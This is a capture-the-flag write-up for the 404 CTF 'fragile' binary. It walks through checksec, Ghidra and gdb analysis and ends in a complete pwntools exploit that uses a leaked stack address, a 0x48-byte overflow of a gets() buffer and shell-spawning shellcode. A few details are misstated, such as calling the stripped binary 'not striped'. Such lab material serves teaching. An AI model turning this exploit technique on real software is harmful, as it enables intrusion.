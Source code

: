 Before we start you need to download the binary from here : [Binary](./fragile).

Here we go let's start by running the binary and see what we have : 

````console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ ./fragile
Montrez-nous de quoi vous êtes capable !
Cadeau : 0x7fff8ec7ec20
Asslema ya Hmema
````

As you can see the binary gave us some random memory address with a beautiful hello in *french*. Why don't we start by checking the architecture of the binary with the file command : 
```console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ file fragile
```
We got : 

````bash
fragile: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6a457609506482cdebb144dbacd9c1f6fba34955, stripped
````
As we can see the architecture of the binary is 0x64 bit, it's also dynamically linked and not striped. Let's try checking out the mitigations that is ON : 

````console
(ironbyte㉿IronByte)-[/mnt/c/Users/IR0NYTE/Desktop/ctf]
└─$ pwn checksec fragile
````

We got : 

````bash 
[*] '/mnt/c/Users/IR0NYTE/Desktop/ctf/fragile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
````

So as you can see we have no stack canary protecting the stack from overriding the return of the program, we also have the right to execute code in the stack since the **NX** is disabled. Since this two mitagations are off i was curious a little of bit to know more about this random address that the binary was throwing at me so i fired up my ghidra and started making some analysis on it, i tried to decompile the main. Here's what i got : 

<img src = "./404_CTF_sansProtection.png">

After a quick look at the main, i noticed that there was a call to the **gets** function wich was a little of bit wired since the **gets** function have no limit on the size of the input which can lead to a buffer overflow attack. After that, i have noticed also that the address that the program was displaying was the address of the buffer. The idea is quite simple, we will try to inject a 64 bit shellcode in the beginning of the buffer from [Shell Storm](https://shell-storm.org/shellcode/) which will spawn for us a shell (*system("bin/bash")* Syscall), after that we will try to overflow the buffer until we get to the return address of the program then just redirect the return to the address of the buffer to execute our malicious shellcode. so we need to calculate the offset between the buffer and the return address. Let's fire up the gdb and set a break point after that **gets** call than i just typed in "mike" and then tried to calculate the offset from there :

````gdb
gef➤  search-pattern "mike"
[+] Searching 'mike' in memory
[+] In '[heap]'(0x602000-0x623000), permission=rw-
  0x6022a0 - 0x6022a6  →   "mike\n"
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffe0f0 - 0x7fffffffe0f4  →   "mike"
gef➤  i f
Stack level 0, frame at 0x7fffffffe140:
 rip = 0x400662; saved rip = 0x7ffff7e0d7fd
 called by frame at 0x7fffffffe210
 Arglist at 0x7fffffffe0e8, args:
 Locals at 0x7fffffffe0e8, Previous frame's sp is 0x7fffffffe140
 Saved registers:
  rbp at 0x7fffffffe130, rip at 0x7fffffffe138
````
Offset = 0x7fffffffe138 - 0x7fffffffe0f0 = 0x48.

Here's the final exploit : 

````python
from pwn import *

#target = remote('challenge.404ctf.fr', 31720)
target = process('./fragile') 

# Setting up the leak
# 0x7ffe3c40e910
screen = target.recvline().decode()
leak = target.recvline().decode().strip("Cadeau :").strip("\n")
leak = bytes(leak, 'utf-8')
leak = int(leak, 16)

# Print the leak
print("Leak : ", hex(leak))

# Setting up the Payload
offset = 0x48
payload = b""
payload += b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
payload += b"A"*(offset - len(payload))
payload += p64(leak)

#gdb.attach(target, gdbscript='b* 00400668')
target.sendline(payload)
target.interactive()
````





